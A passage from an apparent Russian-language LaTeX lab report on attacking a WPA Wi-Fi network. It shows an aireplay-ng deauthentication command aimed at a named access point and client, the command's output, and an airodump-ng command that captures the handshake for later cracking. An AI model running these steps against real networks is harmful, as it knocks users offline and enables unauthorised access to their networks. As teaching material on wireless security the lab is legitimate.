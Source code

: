 Произведем деаутентификацию одного из клиентов (клиента с MAC-адресом 
84:8E:DF:59:3B:7E), до тех пор, пока не удастся собрать необходимых для 
взлома аутентификационных сообщений.
\begin{lstlisting}
bodrik@Bodrik-N53SV:~$ sudo aireplay-ng --ignore-negative-one --deauth 150 -a 28:CF:E9:84:4D:EC -h 84:8E:DF:59:3B:7E mon0
The interface MAC (74:2F:68:1C:56:67) doesn't match the specified MAC (-h).
	ifconfig mon0 hw ether 84:8E:DF:59:3B:7E
08:21:03  Waiting for beacon frame (BSSID: 28:CF:E9:84:4D:EC) on channel -1
NB: this attack is more effective when targeting
a connected wireless client (-c <client's mac>).
08:21:04  Sending DeAuth to broadcast -- BSSID: [28:CF:E9:84:4D:EC]
08:21:04  Sending DeAuth to broadcast -- BSSID: [28:CF:E9:84:4D:EC]
08:21:05  Sending DeAuth to broadcast -- BSSID: [28:CF:E9:84:4D:EC]
08:21:05  Sending DeAuth to broadcast -- BSSID: [28:CF:E9:84:4D:EC]
08:21:05  Sending DeAuth to broadcast -- BSSID: [28:CF:E9:84:4D:EC]
08:21:06  Sending DeAuth to broadcast -- BSSID: [28:CF:E9:84:4D:EC]
08:21:06  Sending DeAuth to broadcast -- BSSID: [28:CF:E9:84:4D:EC]
08:21:07  Sending DeAuth to broadcast -- BSSID: [28:CF:E9:84:4D:EC]

\end{lstlisting}
В результате перехватываем пакет handshake:
\begin{lstlisting}
sudo airodump-ng mon1 --bssid 28:CF:E9:84:4D:EC -c 6 --write dump --ignore-negative-one
\end{lstlisting}

\begin{figure}[H]
	\centering
	\includegraphics[width=\textwidth]{images/3.png}
	\caption{airodump}
\end{figure}


